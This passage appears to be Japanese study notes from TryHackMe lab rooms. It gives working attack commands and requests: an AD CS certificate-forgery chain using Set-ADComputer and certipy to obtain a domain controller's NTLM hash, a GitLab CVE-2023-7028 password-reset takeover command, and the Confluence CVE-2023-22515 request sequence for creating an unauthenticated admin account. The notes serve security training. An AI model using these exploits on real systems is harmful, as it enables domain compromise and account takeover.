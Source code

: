 ```ps
# SPNを削除してからDNSホスト名をDCに変更
#（先にSPNを削除しないと、ホスト名変更によりSPNが自動変更され、SPN重複により変更失敗する）
Set-ADComputer THMPC -ServicePrincipalName @{}
Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com
```

```sh
# 証明書偽造
certipy req 'lunar.eruca.com/THMPC$:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template Machine

# DC のNTLMハッシュが返る
certipy auth -pfx lundc.pfx
```

## CVE-2023-7028 (GitLab)

https://tryhackme.com/room/gitlabcve20237028

- `16.1~16.1.5`、`16.2~16.2.8`、`16.3~16.3.6`、`16.4~16.4.4`、`16.5~16.5.5`、`16.6~16.6.3`、`16.7~16.7.1`
- パスワードリセットメールを自分のアドレスに送信させ、任意のユーザーのパスワードをリセットできる。

poc（THM のリンクに修正版のコードがある）  
https://github.com/Vozec/CVE-2023-7028/blob/main/CVE-2023-7028.py

```sh
python3 attack.py -u http://10.10.207.254:8000 -t victim@mail.gitlab.thm -e attacker@mail.gitlab.thm
```

## CVE-2023-22515 (Confluence)

https://tryhackme.com/room/confluence202322515

- Atlassian Confluence Server および Data Center `<8.3.3`, `<8.4.3`, `<8.5.2`。※`8.2.0`他も有効。
- Confluence に完全な管理者権限を持つ追加アカウントを作成できる。
- 認証情報不要

XWork による getter, setter の連鎖により、

```
http://10.10.217.49:8090/server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false
```

のリクエストは、下記の Java 呼び出しに変換され、セットアップ未完了の状態になる。

```
getBootstrapStatusProvider().getApplicationConfig().setSetupComplete(false)
```

その後、次にリクエストから管理者アカウントを作成できる。

```
http://10.10.217.49:8090/setup/setupadministrator-start.action
```
